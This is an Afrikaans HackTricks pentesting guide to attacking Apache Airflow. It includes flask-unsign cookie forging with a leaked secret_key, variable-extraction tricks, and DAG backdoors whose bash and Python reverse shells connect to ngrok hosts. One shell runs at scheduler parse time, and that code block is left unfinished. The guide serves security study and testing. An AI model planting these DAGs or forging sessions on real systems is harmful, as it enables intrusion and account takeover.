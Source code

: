 # Apache Airflow Sekuriteit

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** my op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Basiese Inligting

[**Apache Airflow**](https://airflow.apache.org) dien as 'n platform vir die **orkestrering en skedulering van data-pyplyne of werkstrome**. Die term "orkestrering" in die konteks van data-pyplyne beteken die proses om komplekse data-werkstrome vanuit verskillende bronne te reël, te koördineer en te bestuur. Die primêre doel van hierdie georkestreerde data-pyplyne is om verwerkte en bruikbare datastelle te voorsien. Hierdie datastelle word wyd gebruik deur 'n verskeidenheid toepassings, insluitend maar nie beperk tot besigheidsintelligensie-instrumente, datawetenskap en masjienleermodelle, wat almal fundamenteel is vir die werking van groot data-toepassings.

Basies sal Apache Airflow jou in staat stel om **die uitvoering van kode te skeduleer wanneer iets** (gebeurtenis, cron) **plaasvind**.

## Plaaslike Laboratorium

### Docker-Compose

Jy kan die **docker-compose-konfigurasie-lêer vanaf** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) gebruik om 'n volledige Apache Airflow-docker-omgewing te begin. (As jy op MacOS is, gee ten minste 6 GB RAM aan die docker-VM).

### Minikube

Een maklike manier om **Apache Airflow te hardloop**, is om dit **met minikube** te hardloop:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow Konfigurasie

Airflow kan **sensitiewe inligting** in sy konfigurasie stoor of swak konfigurasies kan gevind word:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Voordat jy Airflow aanval, moet jy verstaan **hoe toestemmings werk**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Aanvalle

### Webkonsol Enumerasie

As jy **toegang tot die webkonsol** het, kan jy dalk toegang kry tot een of al die volgende inligting:

* **Veranderlikes** (Aangepaste sensitiewe inligting kan hier gestoor word)
* **Verbindings** (Aangepaste sensitiewe inligting kan hier gestoor word)
* Kry toegang daartoe by `http://<airflow>/connection/list/`
* [**Konfigurasie**](./#airflow-configuration) (Sensitiewe inligting soos die **`secret_key`** en wagwoorde kan hier gestoor word)
* Lys **gebruikers & rolle**
* **Kode van elke DAG** (wat interessante inligting kan bevat)

### Kry Veranderlike Waardes

Veranderlikes kan in Airflow gestoor word sodat die **DAGs** hul waardes kan **kry**. Dit is soortgelyk aan geheime van ander platforms. As jy **genoeg toestemmings** het, kan jy dit in die GUI kry by `http://<airflow>/variable/list/`.\
Airflow sal standaard die waarde van die veranderlike in die GUI wys, maar volgens [**hierdie**](https://marclamberti.com/blog/variables-with-apache-airflow/) is dit moontlik om 'n **lys van veranderlikes** in te stel waarvan die **waarde** as **asterisktegn** in die **GUI** sal verskyn.

![](<../../.gitbook/assets/image (79).png>)

Hierdie **waardes** kan egter steeds **gekry** word via **CLI** (jy moet DB-toegang hê), **arbitrêre DAG**-uitvoering, **API** wat die veranderlikes-eindpunt benader (die API moet geaktiveer wees), en **selfs die GUI self!**\
Om toegang tot daardie waardes vanuit die GUI te kry, **kies jy die veranderlikes** wat jy wil kry en **klik op Aksies -> Uitvoer**.\
'n Ander manier is om 'n **bruteforce** uit te voer op die **verborge waarde** deur die **soekfiltering** te gebruik totdat jy dit kry:

![](<../../.gitbook/assets/image (30).png>)

### Bevoorregte Eskalasie

As die **`expose_config`**-konfigurasie op **True** ingestel is, kan vanaf die **rol Gebruiker** en **hoër** die **konfigurasie in die web** **gelees** word. In hierdie konfigurasie verskyn die **`secret_key`**, wat beteken dat enige gebruiker met hierdie sleutel sy eie ondertekende koekie kan skep om enige ander gebruikersrekening na te boots.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG Agterdeur (RCE in Airflow werker)

As jy **skryftoegang** het tot die plek waar die **DAGs gestoor word**, kan jy net **een skep** wat jou 'n **omgekeerde skulp stuur**.\
Let daarop dat hierdie omgekeerde skulp binne 'n **Airflow werker houer** uitgevoer sal word:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG Agterdeur (RCE in Airflow skeduleerder)

As jy iets stel om **uitgevoer te word in die wortel van die kode**, sal dit op die oomblik van hierdie skrywe **uitgevoer word deur die skeduleerder** na 'n paar sekondes nadat dit binne die DAG se vouer geplaas is.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG Skepping

As jy daarin slaag om 'n masjien binne die DAG-kluster te **kompromitteer**, kan jy nuwe **DAG-skripsies** in die `dags/`-vouer skep en dit sal **gerepliseer word in die res van die masjiene** binne die DAG-kluster.

### DAG Kode-inspuiting

Wanneer jy 'n DAG vanaf die GUI uitvoer, kan jy **argumente** daaraan **oorhandig**.\
Daarom, as die DAG nie behoorlik gekodeer is nie, kan dit **kwesbaar wees vir Opdrag-inspuiting**.\
Dit is wat in hierdie CVE gebeur het: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Al wat jy hoef te weet om **te begin soek na opdrag-inspuitings in DAGs**, is dat **parameters** **toegang kry** met die kode **`dag_run.conf.get("param_name")`**.

Verder kan dieselfde kwesbaarheid voorkom met **veranderlikes** (merk op dat jy met genoeg bevoegdhede die waarde van die veranderlikes in die GUI kan **beheer**). Veranderlikes word **toegang met**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
As hulle byvoorbeeld binne 'n bash-opdrag gebruik word, kan jy 'n opdraginspuiting uitvoer.

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks-uitrusting**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** my op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslagplekke.

</details>
